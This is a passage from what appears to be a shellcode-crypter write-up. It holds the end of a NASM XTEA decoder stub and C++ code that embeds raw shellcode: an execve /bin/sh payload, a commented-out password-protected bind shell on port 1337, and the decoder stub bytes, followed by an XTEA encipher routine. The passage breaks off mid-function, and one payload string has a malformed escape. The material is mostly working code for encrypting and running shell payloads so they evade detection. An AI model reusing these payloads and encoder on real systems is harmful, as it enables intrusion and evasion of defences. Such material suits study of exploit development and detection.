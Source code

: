 ```nasm
    sub r10d, 0x9E3779B9 ; sum -= delta
    xchg eax, ebx	 ; exchange v1 and v0 value
    jmp internal	 ; jump to start v0 -= part

  next:
    pop rcx		 ; set to iteration counter
    xchg eax, ebx        ; exchange v0 and v1
    loopnz decipher_loop 


    pop rdi		 ; get base memory address of encoded payload (of first block not decoded)
    stosd		 ; replace encoded block with its decoded version
    xchg eax, ebx	 ; set v1 in eax
    stosd		 ; replace second decoded block

    pop rcx		 ; get blocks pair counter
    loopnz next_blocks   ; if there are other encoded pair jump else execute decoded payload

;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
; Encoded payload + key, will be appended here.
```

Then I've extracted the hexadecimal code and inserted it into the following c++ code :

```c
#include <string>
#include <vector>
#include <cstdint>
#include <ctime>
#include <cstdlib>
#include <iostream>
#include <iomanip>
#include <cstring>

using namespace std;

// Exec shell payload
string payload = "\x31\xf6\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05";

// Bind shell with pass from Assignment 1 (port 1337, pass L33tP4ss)
// Used to test the modification of the number of blocks pairs and of the encoded shellcode size
//string payload = "\x31\xff\xf7\xe7\xff\xc7\x89\xfe\xff\xc7\xb0\x29\x0f\x05\x89\xd3\x52\x66\x68\x05\x39\x66\x57\x89\xc7\x48\x89\xe6\xb2\x10\xb0\x31\x0f\x05\x89\xde\xb0\x32\x0f\x05\x99\xb0\x2b\x0f\x05\x97\x48\x89\xe6\xb2\x08\x89\xd8\x0f\x05\x48\x87\xfe\x48\xb8\x4c\x33\x33\x74\x50\x34\x73\x73\x48\xaf\x48\x87\xfe\x75\xe3\x89\xde\x31\xc0\x83\xc6\x03\xff\xce\xb0\x21\x0f\x05\x75\xf8\xb0\x3b\x53\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\x89\xde\x99\x0fx05";

// XTea decoder stub 
string stub = "\x48\x8d\x35\xf9\xff\xff\xff\x48\x83\xc6\x65\x4c\x8d\x5e\x18\x6a\x03\x59\x51\x41\xba\x40\x6e\xde\x8d\x56\xad\x93\xad\x93\x6a\x40\x59\x51\xb1\x03\x50\x50\x89\xc2\xc1\xe0\x04\xc1\xea\x05\x31\xd0\x5a\x01\xc2\x41\x52\x58\xff\xc9\x74\x03\xc1\xe8\x0b\x83\xe0\x03\x41\x8b\x04\x83\x44\x01\xd0\x31\xd0\x29\xc3\x58\xff\xc9\x78\x0a\x41\x81\xea\xb9\x79\x37\x9e\x93\xeb\xca\x59\x93\xe0\xc3\x5f\xab\x93\xab\x59\xe0\xad";

// Copy paste from : https://fr.wikipedia.org/wiki/XTEA#Article_connexe
void encipher(unsigned int num_rounds, uint32_t v[2], uint32_t const key[4]) {
    unsigned int i;
    uint32_t v0=v[0], v1=v[1], sum=0, delta=0x9E3779B9;
    for (i=0; i < num_rounds; i++) {
        v0 += (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + key[sum & 3]);
        sum += delta;
        v1 += (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + key[(sum>>11) & 3]);
    }
```